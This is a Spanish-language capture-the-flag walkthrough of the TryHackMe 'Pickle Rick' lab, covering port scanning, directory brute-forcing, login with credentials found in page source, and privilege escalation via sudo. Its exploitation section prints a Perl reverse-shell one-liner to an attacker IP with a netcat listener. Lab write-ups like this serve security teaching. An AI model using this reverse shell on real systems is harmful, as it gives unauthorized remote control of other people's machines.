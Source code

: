 ```yaml
---
description: '✍️ Autor: tryhackme, ar33zy, arebel 🔍 Dificultad: Fácil'
---
```


# Pickle Rick

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.146.162
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap 10.10.146.1626
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo el puerto **22** perteneciente al servicio **SSH** y el puerto **80** perteneciente al servicio **HTTP** están abiertos, por lo que se procederá a indagar más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.146.162
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220800.png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente hay algo relevante como un usuario.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 220926.png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:&#x20;

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://10.10.146.162
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Encontramos una página de login y un robots.txt interesantes.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con el usuario y contraseña descubierta anteriormente.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222026.png" alt=""><figcaption></figcaption></figure>

Es un panel de comandos por lo que listamos y vemos el contenido.

<div><figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222225.png" alt=""><figcaption></figcaption></figure> <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222253.png" alt=""><figcaption></figcaption></figure></div>

### 🚀 **EXPLOTACIÓN**

Como podemos ejecutar comandos para obtener una Reverse Shell.

<pre><code><strong>nc -nlvp 4444
</strong><strong>perl -e 'use Socket;$i="10.8.146.101";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&#x26;S");open(STDOUT,">&#x26;S");open(STDERR,">&#x26;S");exec("sh -i");};'
</strong></code></pre>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-19 222859.png" alt=""><figcaption></figcaption></figure>

Comprobamos que tienen todos los permisos por lo que podemos ejecutar como root cualquier comando.

```
sudo ls /root/
sudo cat /root/3rd.txt
```

